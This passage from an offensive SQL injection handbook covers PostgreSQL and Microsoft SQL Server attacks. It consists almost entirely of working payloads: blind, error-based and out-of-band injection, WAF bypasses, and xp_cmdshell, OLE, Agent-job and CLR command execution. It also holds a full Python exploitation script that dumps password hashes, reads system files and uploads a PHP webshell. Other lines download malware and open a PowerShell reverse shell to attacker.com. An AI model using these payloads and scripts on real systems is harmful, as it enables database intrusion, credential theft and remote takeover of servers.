hashcat -m 12 hash.txt wordlist.txt

# SCRAM-SHA-256 is harder to crack (requires John the Ripper bleeding-jumbo)
```

#### Exploiting Weak Configurations

```sql
# Check for users with empty passwords
' UNION SELECT rolname,NULL,NULL FROM pg_authid WHERE rolpassword IS NULL--

# Check for users without password required
'; SELECT usename FROM pg_user WHERE passwd IS NULL--

# Check trust authentication in pg_hba.conf
' UNION SELECT pg_read_file('pg_hba.conf'),NULL,NULL--
# Look for: trust, ident without password requirement

# Exploit trust authentication
psql -h target.com -U postgres  # No password needed if trust auth
```

### PostgreSQL Time-Based Blind SQLi

```sql
# Using pg_sleep()
' AND pg_sleep(5)--
'; SELECT pg_sleep(5)--
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--

# Conditional time delays
'; SELECT CASE WHEN (LENGTH(current_database())>5) THEN pg_sleep(5) ELSE pg_sleep(0) END--
'; SELECT CASE WHEN (SUBSTRING(current_database(),1,1)='p') THEN pg_sleep(5) ELSE pg_sleep(0) END--
'; SELECT CASE WHEN (ASCII(SUBSTRING(current_user::text,1,1))>100) THEN pg_sleep(5) ELSE pg_sleep(0) END--

# Using heavy queries
' AND (SELECT COUNT(*) FROM generate_series(1,10000000))>0--
' AND (SELECT COUNT(*) FROM pg_catalog.pg_tables a, pg_catalog.pg_tables b)>0--

# Stacked time delays
'; SELECT pg_sleep(1); SELECT pg_sleep(1); SELECT pg_sleep(1); SELECT pg_sleep(1); SELECT pg_sleep(1)--
```

### PostgreSQL Error-Based SQLi

```sql
# Type conversion errors
' AND 1=CAST(version() AS int)--
' AND 1=CAST(current_database() AS int)--
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--

# XML errors
' AND 1=CAST(xmlparse(content current_database()) AS int)--
' AND 1=CAST(query_to_xml('SELECT * FROM users',true,false,'') AS int)--

# Constraint violation
'; INSERT INTO users (id) VALUES (1)--  # If id=1 exists, error reveals data

# Division by zero
' AND 1/(SELECT CASE WHEN (username='admin') THEN 0 ELSE 1 END FROM users LIMIT 1)=1--

# Array index errors
' AND 1=(ARRAY[1,2,3])[999999999]--
```

### PostgreSQL Boolean-Based Blind SQLi

```sql
# Basic boolean tests
' AND 1=1--                    # TRUE
' AND 1=2--                    # FALSE
' AND 'a'='a'--                # TRUE
' AND 'a'='b'--                # FALSE

# Substring extraction
' AND SUBSTRING(current_database(),1,1)='p'--
' AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a'--

# ASCII comparison
' AND ASCII(SUBSTRING(current_database(),1,1))>100--
' AND ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1))=97--

# Length checks
' AND LENGTH(current_database())>5--
' AND LENGTH((SELECT password FROM users LIMIT 1))=32--

# Pattern matching
' AND current_database() ~ '^post'--
' AND (SELECT username FROM users LIMIT 1) ~* '^admin$'--

# Exists checks
' AND EXISTS(SELECT 1 FROM users WHERE username='admin')--
' AND EXISTS(SELECT 1 FROM pg_tables WHERE tablename='users')--

# Count checks
' AND (SELECT COUNT(*) FROM users)>10--
' AND (SELECT COUNT(*) FROM users WHERE role='admin')=1--
```

### PostgreSQL Out-of-Band Exploitation

```sql
# DNS exfiltration using dblink
'; CREATE EXTENSION IF NOT EXISTS dblink--
'; SELECT dblink_connect('host='||(SELECT version())||'.attacker.com user=postgres')--

# Using COPY TO PROGRAM for HTTP
'; COPY (SELECT version()) TO PROGRAM 'curl http://attacker.com/exfil?data='||version()--

# Using pg_read_file with UNC paths (Windows only)
' UNION SELECT pg_read_file('\\\\'||(SELECT version())||'.attacker.com\\share\\file.txt')--

# XXE via XML functions (if enabled)
'; SELECT xmlparse(document '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/exfil?data='||version()||'">]><foo>&xxe;</foo>')--
```

### PostgreSQL WAF Bypass Techniques

```sql
# Comment variations
'--comment
'/*comment*/
'--+comment

# Case variation
' UnIoN SeLeCt NULL--
' uNiOn sElEcT NULL--

# PostgreSQL-specific comment
' --comment\n SELECT version()--

# Dollar quoting (string literals)
' UNION SELECT $$test$$,NULL,NULL--
' UNION SELECT $tag$test$tag$,NULL,NULL--

# Unicode normalization
' UNION SELECT U&'\0061\0064\006D\0069\006E'--  # 'admin'

# Encoding bypass
' UNION SELECT CHR(97)||CHR(100)||CHR(109)||CHR(105)||CHR(110)--  # 'admin'

# Type casting variations
' UNION SELECT NULL::text,NULL::text,NULL::text--
' UNION SELECT CAST(NULL AS text),CAST(NULL AS text),CAST(NULL AS text)--

# Alternative operators
' WHERE id=1 AND username='admin'
' WHERE id=1 && username='admin'  # && is alternative AND

# String concatenation variants
' UNION SELECT 'a'||'b'||'c',NULL,NULL--
' UNION SELECT concat('a','b','c'),NULL,NULL--
' UNION SELECT concat_ws('','a','b','c'),NULL,NULL--

# Whitespace alternatives
' UNION%09SELECT NULL--  # Tab
' UNION%0ASELECT NULL--  # Newline
' UNION%0BSELECT NULL--  # Vertical tab
' UNION%0CSELECT NULL--  # Form feed
' UNION%0DSELECT NULL--  # Carriage return

# Nested comments
'/**/UNION/**/SELECT/**/NULL--
'/*/**/UNION/**/SELECT/**/*/NULL--

# String escaping
' UNION SELECT E'test\n'--  # E prefix for escape sequences
' UNION SELECT U&'test'--    # Unicode escape
```

### PostgreSQL Complete Exploitation Script

```python
#!/usr/bin/env python3
"""
PostgreSQL Exploitation Framework
Complete SQLi to RCE for PostgreSQL databases
"""

import requests
import re
import sys
import argparse
from urllib.parse import quote
from colorama import Fore, Style, init
import time

init(autoreset=True)

class PostgreSQLExploiter:
    def __init__(self, url, columns=3):
        self.url = url
        self.columns = columns
        self.db_version = None
        self.db_user = None
        self.db_name = None
        self.is_superuser = False
        
    def send_payload(self, payload):
        """Send injection payload"""
        try:
            encoded = quote(payload)
            response = requests.get(f"{self.url}{encoded}", timeout=10)
            return response.text
        except Exception as e:
            print(f"{Fore.RED}[!] Error: {str(e)}")
            return None
    
    def extract_data(self, query):
        """Extract data using UNION SELECT"""
        nulls = ','.join(['NULL'] * (self.columns - 1))
        payload = f"' UNION SELECT {query},{nulls}--"
        return self.send_payload(payload)
    
    def check_superuser(self):
        """Check if current user is superuser"""
        print(f"{Fore.CYAN}[*] Checking superuser status...")
        
        response = self.extract_data("usesuper::text FROM pg_user WHERE usename=current_user")
        
        if response and ('t' in response or 'true' in response.lower()):
            self.is_superuser = True
            print(f"{Fore.GREEN}[+] Superuser: YES")
        else:
            self.is_superuser = False
            print(f"{Fore.YELLOW}[!] Superuser: NO")
        
        return self.is_superuser
    
    def read_file(self, filepath):
        """Read file using pg_read_file()"""
        print(f"{Fore.CYAN}[*] Reading file: {filepath}")
        
        if not self.is_superuser:
            print(f"{Fore.RED}[!] Superuser privilege required for file operations")
            return None
        
        payload = f"' UNION SELECT pg_read_file('{filepath}'),{',NULL'*(self.columns-1)}--"
        response = self.send_payload(payload)
        
        if response and 'error' not in response.lower():
            print(f"{Fore.GREEN}[+] File content retrieved")
            return response
        else:
            print(f"{Fore.RED}[!] Could not read file")
            return None
    
    def write_file(self, content, filepath):
        """Write file using COPY TO"""
        print(f"{Fore.CYAN}[*] Writing file: {filepath}")
        
        if not self.is_superuser:
            print(f"{Fore.RED}[!] Superuser privilege required")
            return False
        
        # Escape single quotes
        content_escaped = content.replace("'", "''")
        payload = f"'; COPY (SELECT '{content_escaped}') TO '{filepath}'--"
        response = self.send_payload(payload)
        
        if response and 'error' not in response.lower():
            print(f"{Fore.GREEN}[+] File written successfully")
            return True
        else:
            print(f"{Fore.RED}[!] Could not write file")
            return False
    
    def execute_command(self, command):
        """Execute OS command using COPY TO PROGRAM"""
        print(f"{Fore.CYAN}[*] Executing command: {command}")
        
        if not self.is_superuser:
            print(f"{Fore.RED}[!] Superuser privilege required")
            return None
        
        # Create temp table
        table_name = f"cmd_output_{int(time.time())}"
        
        payloads = [
            f"'; CREATE TABLE {table_name}(output text)--",
            f"'; COPY {table_name} FROM PROGRAM '{command}'--",
        ]
        
        for payload in payloads:
            self.send_payload(payload)
        
        # Extract output
        response = self.extract_data(f"string_agg(output,E'\\n') FROM {table_name}")
        
        # Cleanup
        self.send_payload(f"'; DROP TABLE {table_name}--")
        
        if response:
            print(f"{Fore.GREEN}[+] Command output:")
            # Parse output from response
            print(response[:500])
            return response
        else:
            print(f"{Fore.RED}[!] Command execution failed")
            return None
    
    def upload_webshell(self, webroot='/var/www/html'):
        """Upload PHP webshell"""
        print(f"{Fore.CYAN}[*] Uploading webshell to {webroot}/shell.php")
        
        webshell = '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; }?>'
        
        if self.write_file(webshell, f'{webroot}/shell.php'):
            print(f"{Fore.GREEN}[+] Webshell uploaded!")
            print(f"{Fore.CYAN}[*] Access at: http://<target>/shell.php?cmd=whoami")
            return True
        
        return False
    
    def extract_users(self):
        """Extract PostgreSQL users and passwords"""
        print(f"{Fore.CYAN}[*] Extracting user credentials...")
        
        # Regular users
        payload1 = f"' UNION SELECT string_agg(usename||'@'||'superuser:'||usesuper::text,E'\\n'),{',NULL'*(self.columns-1)} FROM pg_user--"
        response1 = self.send_payload(payload1)
        
        if response1:
            print(f"{Fore.GREEN}[+] Users found:")
            print(response1[:300])
        
        # Try to get password hashes (requires superuser)
        if self.is_superuser:
            payload2 = f"' UNION SELECT string_agg(rolname||':'||rolpassword,E'\\n'),{',NULL'*(self.columns-1)} FROM pg_authid WHERE rolpassword IS NOT NULL--"
            response2 = self.send_payload(payload2)
            
            if response2:
                print(f"\n{Fore.GREEN}[+] Password hashes:")
                print(response2[:300])
    
    def enumerate_database(self):
        """Complete database enumeration"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}PostgreSQL Database Enumeration")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        # Version
        print(f"{Fore.CYAN}[*] Extracting database version...")
        response = self.extract_data("version()")
        if response:
            match = re.search(r'PostgreSQL (\d+\.\d+)', response)
            if match:
                self.db_version = match.group(1)
                print(f"{Fore.GREEN}[+] Version: {self.db_version}")
        
        # Current user
        print(f"\n{Fore.CYAN}[*] Extracting current user...")
        response = self.extract_data("current_user||'@'||current_database()")
        if response:
            print(f"{Fore.GREEN}[+] User info: {response[:200]}")
        
        # Current database
        print(f"\n{Fore.CYAN}[*] Extracting current database...")
        response = self.extract_data("current_database()")
        if response:
            match = re.search(r'>(\w+)<', response)
            if match:
                self.db_name = match.group(1)
                print(f"{Fore.GREEN}[+] Database: {self.db_name}")
        
        # List all databases
        print(f"\n{Fore.CYAN}[*] Listing all databases...")
        response = self.extract_data("string_agg(datname,',') FROM pg_database")
        if response:
            print(f"{Fore.GREEN}[+] Databases: {response[:200]}")
        
        # List tables
        print(f"\n{Fore.CYAN}[*] Listing tables in public schema...")
        response = self.extract_data("string_agg(tablename,',') FROM pg_tables WHERE schemaname='public'")
        if response:
            print(f"{Fore.GREEN}[+] Tables: {response[:200]}")
        
        # Check superuser
        self.check_superuser()
        
        print(f"\n{Fore.GREEN}[+] Enumeration complete!")
    
    def exploit(self):
        """Full exploitation chain"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}PostgreSQL Exploitation Framework")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        # Step 1: Enumerate
        self.enumerate_database()
        
        # Step 2: Extract users
        print(f"\n{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}User Extraction")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        self.extract_users()
        
        # Step 3: File operations (if superuser)
        if self.is_superuser:
            print(f"\n{Fore.YELLOW}{'='*70}")
            print(f"{Fore.YELLOW}File Operations")
            print(f"{Fore.YELLOW}{'='*70}\n")
            
            # Read /etc/passwd
            self.read_file('/etc/passwd')
            
            # Try webshell upload
            self.upload_webshell()
            
            # Step 4: Command execution
            print(f"\n{Fore.YELLOW}{'='*70}")
            print(f"{Fore.YELLOW}Command Execution")
            print(f"{Fore.YELLOW}{'='*70}\n")
            
            self.execute_command('whoami')
            self.execute_command('id')
            self.execute_command('uname -a')
        
        print(f"\n{Fore.GREEN}[+] Exploitation complete!")


def main():
    parser = argparse.ArgumentParser(description='PostgreSQL SQLi Exploitation Framework')
    parser.add_argument('-u', '--url', required=True,
                       help='Target URL (up to injectable parameter)')
    parser.add_argument('-c', '--columns', type=int, default=3,
                       help='Number of columns in SELECT (default: 3)')
    
    args = parser.parse_args()
    
    exploiter = PostgreSQLExploiter(args.url, args.columns)
    exploiter.exploit()


if __name__ == "__main__":
    main()
```

**Usage Example:**

```bash
# Basic exploitation
python postgres_exploit.py -u "http://target.com/page.php?id=1"

# With different column count
python postgres_exploit.py -u "http://target.com/product.php?id=5" -c 4

# Output:
# ======================================================================
# PostgreSQL Exploitation Framework
# ======================================================================
# 
# ======================================================================
# PostgreSQL Database Enumeration
# ======================================================================
# 
# [*] Extracting database version...
# [+] Version: 12.5
# 
# [*] Extracting current user...
# [+] User info: webapp@appdb
# 
# [*] Extracting current database...
# [+] Database: appdb
# 
# [*] Listing all databases...
# [+] Databases: postgres,template0,template1,appdb
# 
# [*] Listing tables in public schema...
# [+] Tables: users,products,orders,sessions
# 
# [*] Checking superuser status...
# [+] Superuser: YES
# 
# [+] Enumeration complete!
# 
# ======================================================================
# User Extraction
# ======================================================================
# 
# [*] Extracting user credentials...
# [+] Users found:
# postgres@superuser:t
# webapp@superuser:t
# 
# [+] Password hashes:
# postgres:SCRAM-SHA-256$4096:...
# webapp:SCRAM-SHA-256$4096:...
# 
# ======================================================================
# File Operations
# ======================================================================
# 
# [*] Reading file: /etc/passwd
# [+] File content retrieved
# 
# [*] Uploading webshell to /var/www/html/shell.php
# [+] File written successfully
# [+] Webshell uploaded!
# [*] Access at: http://<target>/shell.php?cmd=whoami
# 
# ======================================================================
# Command Execution
# ======================================================================
# 
# [*] Executing command: whoami
# [+] Command output:
# postgres
# 
# [*] Executing command: id
# [+] Command output:
# uid=999(postgres) gid=999(postgres) groups=999(postgres)
# 
# [*] Executing command: uname -a
# [+] Command output:
# Linux dbserver 5.4.0-42-generic #46-Ubuntu SMP x86_64 GNU/Linux
# 
# [+] Exploitation complete!
```

---

## 🪟 Chapter 13: Microsoft SQL Server

### MSSQL-Specific Features

```
Microsoft SQL Server Characteristics:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
✓ Windows-first (Linux support from 2017+)
✓ T-SQL language (Transact-SQL)
✓ Integrated Windows authentication
✓ Powerful stored procedures (xp_cmdshell)
✓ Linked servers for distributed queries
✓ SQL Server Agent for job scheduling
✓ Extensive system stored procedures
✓ OLE Automation for COM objects

Versions:
SQL Server 2008 R2 - Legacy, still found
SQL Server 2012   - Sequence objects, paging
SQL Server 2014   - In-memory OLTP
SQL Server 2016   - JSON support, temporal tables
SQL Server 2017   - Linux support, graph databases
SQL Server 2019   - Big Data Clusters
SQL Server 2022   - Latest, cloud-integrated
```

### MSSQL System Databases & Tables

```sql
# System databases
master      # Server-wide settings, logins
msdb        # SQL Server Agent, jobs, alerts
model       # Template for new databases
tempdb      # Temporary objects
resource    # Read-only, system objects

# Important system tables/views
sys.databases           # All databases
sys.tables              # All tables
sys.columns             # All columns
sys.server_principals   # Server-level logins
sys.database_principals # Database-level users
sys.sql_logins          # SQL authentication logins
sys.sysadmins           # Members of sysadmin role
sys.configurations      # Server configurations
```

### Complete MSSQL Exploitation Payloads

#### Database Enumeration

```sql
# Current database
' UNION SELECT DB_NAME(),NULL,NULL--

# Database version
' UNION SELECT @@version,NULL,NULL--
' UNION SELECT SERVERPROPERTY('ProductVersion'),SERVERPROPERTY('Edition'),NULL--

# Server name
' UNION SELECT @@SERVERNAME,NULL,NULL--
' UNION SELECT SERVERPROPERTY('ServerName'),NULL,NULL--

# Current user
' UNION SELECT SYSTEM_USER,NULL,NULL--
' UNION SELECT USER_NAME(),NULL,NULL--
' UNION SELECT SUSER_NAME(),NULL,NULL--
' UNION SELECT ORIGINAL_LOGIN(),NULL,NULL--

# Hostname
' UNION SELECT HOST_NAME(),NULL,NULL--
' UNION SELECT SERVERPROPERTY('MachineName'),NULL,NULL--

# List all databases
' UNION SELECT name,NULL,NULL FROM sys.databases--
' UNION SELECT name,NULL,NULL FROM master..sysdatabases--
' UNION SELECT STRING_AGG(name,','),NULL,NULL FROM sys.databases--  # SQL Server 2017+

# Database owners
' UNION SELECT name,SUSER_SNAME(owner_sid),NULL FROM sys.databases--

# Database sizes
' UNION SELECT name,CAST(size*8/1024 AS varchar)+'MB',NULL FROM sys.master_files WHERE type=0--
```

#### Table & Column Enumeration

```sql
# List tables in current database
' UNION SELECT name,NULL,NULL FROM sys.tables--
' UNION SELECT table_name,NULL,NULL FROM information_schema.tables--

# List all tables across all databases
' UNION SELECT TABLE_CATALOG+'.'+TABLE_SCHEMA+'.'+TABLE_NAME,NULL,NULL FROM information_schema.tables--

# Table row counts
' UNION SELECT name,CAST(rows AS varchar),NULL FROM sys.sysindexes WHERE indid<2 AND name IN (SELECT name FROM sys.tables)--

# List columns from specific table
' UNION SELECT name,type_name(system_type_id),NULL FROM sys.columns WHERE object_id=OBJECT_ID('users')--
' UNION SELECT column_name,data_type,NULL FROM information_schema.columns WHERE table_name='users'--

# Find columns by name
' UNION SELECT TABLE_NAME,COLUMN_NAME,NULL FROM information_schema.columns WHERE COLUMN_NAME LIKE '%pass%'--
' UNION SELECT TABLE_NAME,COLUMN_NAME,NULL FROM information_schema.columns WHERE COLUMN_NAME LIKE '%user%'--
' UNION SELECT TABLE_NAME,COLUMN_NAME,NULL FROM information_schema.columns WHERE COLUMN_NAME LIKE '%email%'--
' UNION SELECT TABLE_NAME,COLUMN_NAME,NULL FROM information_schema.columns WHERE COLUMN_NAME LIKE '%credit%'--

# Get table structure with constraints
' UNION SELECT c.name,t.name,NULL FROM sys.columns c JOIN sys.types t ON c.user_type_id=t.user_type_id WHERE c.object_id=OBJECT_ID('users')--
```

#### User & Privilege Enumeration

```sql
# List all logins
' UNION SELECT name,type_desc,NULL FROM sys.server_principals--
' UNION SELECT loginname,NULL,NULL FROM syslogins--

# List SQL logins only
' UNION SELECT name,NULL,NULL FROM sys.sql_logins--

# Check current user privileges
' UNION SELECT IS_SRVROLEMEMBER('sysadmin'),NULL,NULL--
' UNION SELECT IS_SRVROLEMEMBER('serveradmin'),NULL,NULL--
' UNION SELECT IS_SRVROLEMEMBER('securityadmin'),NULL,NULL--
' UNION SELECT IS_SRVROLEMEMBER('dbcreator'),NULL,NULL--

# Check database roles
' UNION SELECT IS_MEMBER('db_owner'),IS_MEMBER('db_datareader'),IS_MEMBER('db_datawriter')--

# List all sysadmin members
' UNION SELECT name,NULL,NULL FROM sys.server_principals WHERE IS_SRVROLEMEMBER('sysadmin',name)=1--

# Get password hashes (requires VIEW SERVER STATE)
' UNION SELECT name,password_hash,NULL FROM sys.sql_logins--

# List permissions
' UNION SELECT permission_name,state_desc,NULL FROM fn_my_permissions(NULL,'SERVER')--
' UNION SELECT permission_name,state_desc,NULL FROM fn_my_permissions(NULL,'DATABASE')--

# Impersonation check
' UNION SELECT name,NULL,NULL FROM sys.server_principals WHERE IS_SRVROLEMEMBER('sysadmin',name)=1 OR name IN (SELECT permission_name FROM fn_my_permissions(NULL,'SERVER') WHERE permission_name='IMPERSONATE')--
```

#### Data Extraction

```sql
# Basic extraction
' UNION SELECT username,password,email FROM users--

# Handle different data types
' UNION SELECT CAST(id AS varchar),username,password FROM users--
' UNION SELECT CONVERT(varchar,id),username,password FROM users--

# Concatenate columns
' UNION SELECT username+':'+password,NULL,NULL FROM users--
' UNION SELECT username+':'+password+':'+email,NULL,NULL FROM users--

# Aggregate data
' UNION SELECT STRING_AGG(username+':'+password,','),NULL,NULL FROM users--  # SQL Server 2017+
# For older versions:
' UNION SELECT STUFF((SELECT ','+username+':'+password FROM users FOR XML PATH('')),1,1,''),NULL,NULL--

# Pagination (SQL Server 2012+)
' UNION SELECT username,password,NULL FROM users ORDER BY id OFFSET 0 ROWS FETCH NEXT 10 ROWS ONLY--
' UNION SELECT username,password,NULL FROM users ORDER BY id OFFSET 10 ROWS FETCH NEXT 10 ROWS ONLY--

# Older pagination (SQL Server 2008)
' UNION SELECT TOP 10 username,password,NULL FROM users WHERE id NOT IN (SELECT TOP 0 id FROM users ORDER BY id) ORDER BY id--
' UNION SELECT TOP 10 username,password,NULL FROM users WHERE id NOT IN (SELECT TOP 10 id FROM users ORDER BY id) ORDER BY id--

# ROW_NUMBER for pagination
' UNION SELECT username,password,NULL FROM (SELECT username,password,ROW_NUMBER() OVER (ORDER BY id) AS rn FROM users) t WHERE rn BETWEEN 1 AND 10--
```

#### MSSQL-Specific Functions

```sql
# String manipulation
' UNION SELECT CONCAT(username,':',password),NULL,NULL FROM users--  # SQL Server 2012+
' UNION SELECT username+':'+password,NULL,NULL FROM users--
' UNION SELECT SUBSTRING(password,1,16),NULL,NULL FROM users--
' UNION SELECT LEFT(password,16),RIGHT(password,16),NULL FROM users--
' UNION SELECT STUFF(password,10,5,'*****'),NULL,NULL FROM users--  # Replace characters

# Encoding
' UNION SELECT MASTER.dbo.fn_varbintohexstr(CAST(password AS varbinary)),NULL,NULL FROM users--
' UNION SELECT CONVERT(varchar(max),password,2),NULL,NULL FROM users--  # Hex

# Hashing
' UNION SELECT HASHBYTES('MD5','password'),NULL,NULL--
' UNION SELECT HASHBYTES('SHA1','password'),NULL,NULL--
' UNION SELECT HASHBYTES('SHA2_256','password'),NULL,NULL--
' UNION SELECT HASHBYTES('SHA2_512','password'),NULL,NULL--

# Encoding/Decoding
' UNION SELECT CAST(N'' AS xml).value('xs:base64Binary(sql:column("bin_data"))','varchar(max)'),NULL,NULL--  # Base64 encode

# Date/Time
' UNION SELECT GETDATE(),NULL,NULL--
' UNION SELECT GETUTCDATE(),NULL,NULL--
' UNION SELECT SYSDATETIME(),NULL,NULL--
' UNION SELECT CONVERT(varchar,GETDATE(),120),NULL,NULL--  # Format: YYYY-MM-DD HH:MI:SS

# Conditionals
' UNION SELECT IIF(1=1,'true','false'),NULL,NULL--  # SQL Server 2012+
' UNION SELECT CASE WHEN 1=1 THEN 'yes' ELSE 'no' END,NULL,NULL--

# NULL handling
' UNION SELECT ISNULL(column_name,'default'),NULL,NULL FROM users--
' UNION SELECT COALESCE(column1,column2,'default'),NULL,NULL FROM users--

# Math
' UNION SELECT RAND(),NULL,NULL--
' UNION SELECT COUNT(*),SUM(price),AVG(price) FROM products--
```

### MSSQL Command Execution

#### Method 1: xp_cmdshell (Most Common)

```sql
# Check if xp_cmdshell is enabled
' UNION SELECT CONVERT(int,value_in_use),NULL,NULL FROM sys.configurations WHERE name='xp_cmdshell'--

# Enable xp_cmdshell (requires sysadmin or ALTER SETTINGS)
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE--
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE--

# Execute commands
'; EXEC xp_cmdshell 'whoami'--
'; EXEC xp_cmdshell 'hostname'--
'; EXEC xp_cmdshell 'ipconfig'--
'; EXEC xp_cmdshell 'net user'--
'; EXEC xp_cmdshell 'net localgroup administrators'--

# Capture output in table
'; CREATE TABLE cmd_output (output varchar(8000))--
'; INSERT INTO cmd_output EXEC xp_cmdshell 'whoami'--
' UNION SELECT output,NULL,NULL FROM cmd_output--
'; DROP TABLE cmd_output--

# PowerShell execution
'; EXEC xp_cmdshell 'powershell -c "Get-Process"'--
'; EXEC xp_cmdshell 'powershell -c "whoami /all"'--
'; EXEC xp_cmdshell 'powershell -c "Get-ComputerInfo"'--

# Download and execute
'; EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://attacker.com/payload.ps1'')"'--
'; EXEC xp_cmdshell 'certutil -urlcache -f http://attacker.com/malware.exe C:\Temp\malware.exe'--
'; EXEC xp_cmdshell 'C:\Temp\malware.exe'--

# Reverse shell (PowerShell)
'; EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''attacker.com'',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'--

# Cleanup (disable xp_cmdshell)
'; EXEC sp_configure 'xp_cmdshell', 0; RECONFIGURE--
'; EXEC sp_configure 'show advanced options', 0; RECONFIGURE--
```

#### Method 2: OLE Automation Procedures

```sql
# Enable OLE Automation
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE--
'; EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE--

# Execute commands via WScript.Shell
'; DECLARE @output int, @shell int;
  EXEC sp_OACreate 'wscript.shell', @shell OUTPUT;
  EXEC sp_OAMethod @shell, 'run', @output OUTPUT, 'cmd /c whoami > C:\output.txt';
  EXEC sp_OADestroy @shell--

# Read output
' UNION SELECT BulkColumn,NULL,NULL FROM OPENROWSET(BULK 'C:\output.txt', SINGLE_CLOB) AS x--

# Alternative: Using FileSystemObject
'; DECLARE @fso int, @file int, @ts int, @result varchar(8000);
  EXEC sp_OACreate 'Scripting.FileSystemObject', @fso OUTPUT;
  EXEC sp_OAMethod @fso, 'CreateTextFile', @file OUTPUT, 'C:\test.txt', 1;
  EXEC sp_OAMethod @file, 'WriteLine', NULL, 'Test content';
  EXEC sp_OAMethod @file, 'Close';
  EXEC sp_OADestroy @file;
  EXEC sp_OADestroy @fso--
```

#### Method 3: SQL Server Agent Jobs

```sql
# Create job for command execution
'; USE msdb--
'; EXEC dbo.sp_add_job @job_name = N'Evil'--
'; EXEC sp_add_jobstep @job_name = N'Evil', 
   @step_name = N'Step1', 
   @subsystem = N'cmdexec', 
   @command = N'cmd /c whoami > C:\output.txt'--
'; EXEC dbo.sp_add_jobserver @job_name = N'Evil', @server_name = N'(local)'--
'; EXEC dbo.sp_start_job N'Evil'--

# Check job status
' UNION SELECT name,enabled,NULL FROM msdb.dbo.sysjobs--

# Cleanup
'; USE msdb; EXEC dbo.sp_delete_job @job_name = N'Evil'--
```

#### Method 4: CLR Assemblies (Advanced)

```sql
# Enable CLR
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE--
'; EXEC sp_configure 'clr enabled', 1; RECONFIGURE--
'; EXEC sp_configure 'clr strict security', 0; RECONFIGURE--  # SQL Server 2017+

# Create assembly from hex (C# compiled DLL)
'; CREATE ASSEMBLY ExecAssembly FROM 0x4D5A90000300000004000000FFFF... WITH PERMISSION_SET = UNSAFE--

# Create procedure from assembly
'; CREATE PROCEDURE dbo.ExecCommand @cmd NVARCHAR(4000) AS EXTERNAL NAME ExecAssembly.StoredProcedures.ExecCommand--

# Execute
'; EXEC dbo.ExecCommand 'whoami'--

# Cleanup
'; DROP PROCEDURE dbo.ExecCommand--
'; DROP ASSEMBLY ExecAssembly--
```

### MSSQL File Operations

**Reading Files:**

```sql
# Using OPENROWSET (BULK)
' UNION SELECT BulkColumn,NULL,NULL FROM OPENROWSET(BULK 'C:\Windows\win.ini', SINGLE_CLOB) AS x--
' UNION SELECT BulkColumn,NULL,NULL FROM OPENROWSET(BULK 'C:\inetpub\wwwroot\web.config', SINGLE_CLOB) AS x--

# Read as hex
' UNION SELECT CONVERT(varchar(max),BulkColumn,2),NULL,NULL FROM OPENROWSET(BULK 'C:\file.bin', SINGLE_BLOB) AS x--

# Using xp_cmdshell
'; EXEC xp_cmdshell 'type C:\Windows\win.ini'--
'; CREATE TABLE file_content (line varchar(8000)); INSERT INTO file_content EXEC xp_cmdshell 'type C:\file.txt'; SELECT line FROM file_content--

# Using xp_dirtree (directory listing)
'; EXEC xp_dirtree 'C:\',1,1--
'; EXEC xp_dirtree 'C:\inetpub\wwwroot\',1,1--
'; CREATE TABLE dir_list (path varchar(255), depth int, is_file bit); INSERT INTO dir_list EXEC xp_dirtree 'C:\',1,1; SELECT * FROM dir_list--

# Using xp_fileexist (check if file exists)
'; DECLARE @result int; EXEC xp_fileexist 'C:\Windows\win.ini', @result OUTPUT; SELECT @result--
```

**Writing Files:**

```sql
# Using xp_cmdshell
'; EXEC xp_cmdshell 'echo ^<?php system($_GET["c"]); ?^> > C:\inetpub\wwwroot\shell.php'--
'; EXEC xp_cmdshell 'echo test content > C:\Temp\test.txt'--

# Using BCP (Bulk Copy Program)
'; EXEC master..xp_cmdshell 'bcp "SELECT ''webshell content''" queryout "C:\inetpub\wwwroot\shell.php" -c -S localhost -U sa -P password'--

# Using OLE Automation
'; DECLARE @obj int, @content varchar(8000);
  SET @content = '<?php system($_GET["c"]); ?>';
  EXEC sp_OACreate 'Scripting.FileSystemObject', @obj OUTPUT;
  DECLARE @file int;
  EXEC sp_OAMethod @obj, 'CreateTextFile', @file OUTPUT, 'C:\inetpub\wwwroot\shell.php', 1;
  EXEC sp_OAMethod @file, 'WriteLine', NULL, @content;
  EXEC sp_OAMethod @file, 'Close';
  EXEC sp_OADestroy @file;
  EXEC sp_OADestroy @obj--
```

### MSSQL Privilege Escalation

#### Impersonation

```sql
# Check available impersonations
' UNION SELECT DISTINCT b.name,NULL,NULL FROM sys.server_permissions a 
  INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id 
  WHERE a.permission_name = 'IMPERSONATE'--

# Impersonate as sa
'; EXECUTE AS LOGIN = 'sa'--
' UNION SELECT SYSTEM_USER,USER_NAME(),NULL--  # Verify

